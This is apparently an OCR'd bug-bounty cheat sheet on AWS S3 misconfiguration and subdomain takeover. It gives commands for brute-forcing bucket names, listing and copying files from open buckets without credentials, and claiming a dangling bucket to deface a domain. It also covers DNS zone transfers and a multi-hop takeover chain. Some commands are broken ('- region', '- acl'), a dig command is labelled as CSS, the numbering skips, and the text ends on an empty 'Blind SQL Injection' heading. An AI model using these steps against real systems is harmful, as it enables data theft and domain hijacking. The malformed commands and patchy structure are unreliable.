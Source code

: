 Find misconfigured AWS buckets. **Tools**: `s3scanner`, AWS CLI.

```bash
# Step 1: Brute-force bucket names  
s3scanner scan -t 50 --region us-west-1 --bucket-wordlist common_buckets.txt  

# Step 2: Check permissions  
aws s3 ls s3://bucketname --no-sign-request  
aws s3 cp s3://bucketname/config.yml . --no-sign-request  
```

**Bug found:** Found an open bucket with user data

## S3 Bucket TakeOver:

1. **Find an interseting CNAME**: `files.example.com` → `files.example.com.s3.amazonaws.com`.
2. **Check if the bucket exists**:

```bash
aws s3 ls s3://files.example.com
```

If you see `NoSuchBucket`, proceed.

**3. Create the bucket and upload a PoC**:

```bash
aws s3 mb s3://files.example.com - region us-east-1 
echo "Hacked by <yourname>" > index.html 
aws s3 cp index.html s3://files.example.com - acl public-read
```

**4. Verify**: Visit `http://files.example.com`. If you see your message, then you've successfully found a valid bounty earning bug.

### Other Advanced Methods

#### 1. DNS Zone Transfers (AXFR Abuse)

```css
dig axfr @ns1.example.com example.com
```

If successful, you'll get a full list of subdomains. Look for CNAMEs pointing to dead services.

#### 4. Multi-Hop Takeovers

**Example**:

1. `a.example.com` → `b.herokuapp.com` (dead).
2. `b.herokuapp.com` → `c.s3.amazonaws.com` (dead).

**Chain Reaction**: Claim `c.s3.amazonaws.com`, which then controls `b.herokuapp.com`, which controls `a.example.com`.

————————————————————————————————————

Blind SQL Injection
